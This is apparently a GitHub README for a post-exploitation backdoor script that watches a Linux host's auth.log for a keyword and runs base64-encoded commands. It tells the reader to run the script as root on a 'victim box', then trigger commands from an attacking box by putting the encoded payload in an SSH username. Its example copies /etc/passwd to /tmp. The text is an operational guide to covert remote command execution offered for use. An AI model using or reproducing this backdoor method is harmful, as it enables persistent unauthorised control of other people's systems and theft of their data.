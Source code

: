 ##ssh-authlog-backdoor

A post exploit python script that watches auth.log for a keyword then executes base64 encoded commands.  


## How to use

1. Execute the script as root on the victim box.

2. Encode a command in base64 by using an online service or how ever you can get base64. https://www.base64encode.org/
   Example
   ``` cat /etc/passwd > /tmp/test ```
   is
   ```Y2F0IC9ldGMvcGFzc3dkID4gL3RtcC90ZXN0```
3. From an attacking box initiate an ssh connection as the user ```shadow---``` + ```base64 encoded command```
   Full example ```ssh shadow---Y2F0IC9ldGMvcGFzc3dkID4gL3RtcC90ZXN0@VICTIM.IP``` 
   
 
